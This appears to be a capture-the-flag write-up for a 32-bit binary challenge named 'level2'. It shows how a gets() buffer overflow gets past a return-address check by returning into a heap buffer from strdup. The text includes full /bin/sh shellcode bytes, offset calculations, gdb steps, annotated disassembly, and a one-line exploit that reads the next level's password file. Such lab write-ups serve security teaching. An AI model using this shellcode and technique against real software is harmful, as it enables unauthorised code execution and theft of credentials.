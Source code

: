 - attack: buffer overflow
- binary behavior: reprints argument (buffer is outed)
- targeted functions: p and main
- vulnerability in main: gets()
- vulnerability in p: strdup()
- defense: no stack overwirting is possible because of comparison of eip address with predefined eip address 

Method:
- find the overflow size
- find eip offest size
- find the return address used by strdup
- overwrite eip by the return address
- call shell using shellcode
- cat passwd when get console with root privedges

Shell code: 52 http://shell-storm.org/shellcode/files/shellcode-863.html
"\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68"   
Info:
- 0x0804a008 - return address
- 0x08a00480 - same in little-endian
- same in hex - \x08\xa0\x04\x08
- eip register address after segfault - 0x37634136
- its offset - 80 (from wiremask.eu)
- offset code structure: 80 = 4 (return address) + 52 (shell code) + 28


Code:
objdump -d ./level2
ltrace ./level2

gdb level2
(gdb) r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4
Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
(python -c 'print "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  + "a" * 28 + "\x08\xa0\x04\x08"';cat) | ./level2
whoami
cd ..; cat level3/.pass


Functions

main
0804853f <main>:
 804853f:       55                      push   %ebp
 8048540:       89 e5                   mov    %esp,%ebp
 8048542:       83 e4 f0                and    $0xfffffff0,%esp
 8048545:       e8 8a ff ff ff          call   80484d4 <p>
 804854a:       c9                      leave
 804854b:       c3                      ret
 804854c:       90                      nop
 804854d:       90                      nop
 804854e:       90                      nop
 804854f:       90                      nop

p

080484d4 <p>:
 80484d4:       55                      push   %ebp
 80484d5:       89 e5                   mov    %esp,%ebp
 80484d7:       83 ec 68                sub    $0x68,%esp
 80484da:       a1 60 98 04 08          mov    0x8049860,%eax
 80484df:       89 04 24                mov    %eax,(%esp)
 80484e2:       e8 c9 fe ff ff          call   80483b0 <fflush@plt>
 80484e7:       8d 45 b4                lea    -0x4c(%ebp),%eax
 80484ea:       89 04 24                mov    %eax,(%esp)
 80484ed:       e8 ce fe ff ff          call   80483c0 <gets@plt>
 80484f2:       8b 45 04                mov    0x4(%ebp),%eax
 80484f5:       89 45 f4                mov    %eax,-0xc(%ebp)
 80484f8:       8b 45 f4                mov    -0xc(%ebp),%eax
 80484fb:       25 00 00 00 b0          and    $0xb0000000,%eax #defence
 8048500:       3d 00 00 00 b0          cmp    $0xb0000000,%eax #defence
 8048505:       75 20                   jne    8048527 <p+0x53>
 8048507:       b8 20 86 04 08          mov    $0x8048620,%eax
 804850c:       8b 55 f4                mov    -0xc(%ebp),%edx
 804850f:       89 54 24 04             mov    %edx,0x4(%esp)
 8048513:       89 04 24                mov    %eax,(%esp)
 8048516:       e8 85 fe ff ff          call   80483a0 <printf@plt>
 804851b:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8048522:       e8 a9 fe ff ff          call   80483d0 <_exit@plt>
 8048527:       8d 45 b4                lea    -0x4c(%ebp),%eax
 804852a:       89 04 24                mov    %eax,(%esp)
 804852d:       e8 be fe ff ff          call   80483f0 <puts@plt>
 8048532:       8d 45 b4                lea    -0x4c(%ebp),%eax
 8048535:       89 04 24                mov    %eax,(%esp)
 8048538:       e8 a3 fe ff ff          call   80483e0 <strdup@plt> #exploit
 804853d:       c9                      leave
 804853e:       c3                      ret



 
             